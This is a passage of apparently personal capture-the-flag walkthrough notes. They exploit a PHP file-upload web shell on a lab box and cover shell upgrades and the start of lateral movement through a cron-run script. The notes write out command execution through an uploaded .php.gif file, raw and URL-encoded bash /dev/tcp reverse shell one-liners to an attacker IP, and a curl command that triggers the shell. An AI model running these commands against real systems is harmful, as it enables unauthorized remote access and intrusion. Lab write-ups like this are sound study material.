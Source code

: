 ```
			- can add the following and a command (eg:whoami) to see i it works
				```bash
http://10.10.11.146/uploads/<filename>.php.gif?cmd=whoami
```
	- File upload should work for all these method and we can access it in the photos.php location on website.
	- **For Reverse Shell: All methods**
		- Have netcat lstening on desired port
		- **For pentest monkey Quick Method**
			- should work immediately after accessing file (right click the file at /photos.php and click Open in new tab)
		- **For Alternate 2 (Preferred):**
			- capture packet of accessing the file
			- enter this command where we put in whoami. then select it and press Ctrl+U to URL encode (shown at the second line below):
				```bash
Without URL Encoding:
bash -i >& /dev/tcp/10.10.14.25/9999 0>&1 #main command
OR
bach -c 'bash -i >& /dev/tcp/10.10.14.25/9999 0>&1'
--------
URL Encoded:
bash+-i+>%26+/dev/tcp/10.10.14.25/9999+0>%261 #url encoded
OR
bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.25/9999+0>%261'
```
			- This URL encoded code can be forwarded/ sent by repeater.
		- **For Alternate 1**
			- can use browser to execute commands as stated earlier.
				- try to execute the reverse shell exploit
					- but we need to url encode 
						- can use burp suite 
			- can use curl:
				```bash
curl -G --data-urlencode "cmd=bash -i >& /dev/tcp/10.10.14.25/9999 0>&1" http://10.10.10.146/uploads/10_10_14_25.php.gif

# Or can include the one with bach -c included
```
## Lateral movement for user.txt
- Get better shell :
	- Method 1 :
		```bash
script /dev/null -c bash
```
	- Method 2 ( didn't work for me): 
		```bash
target>$ python -c ‘import pty;pty.spawn(“/bin/bash”)’;
Ctrl+Z # to background it and exit from shell to local machine
local>$ stty raw -echo

Press fg > Enter
Should get shell

```
- reading cron file we see a file is executed every 3 minutes
- reading check_attack.php
	```bash
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';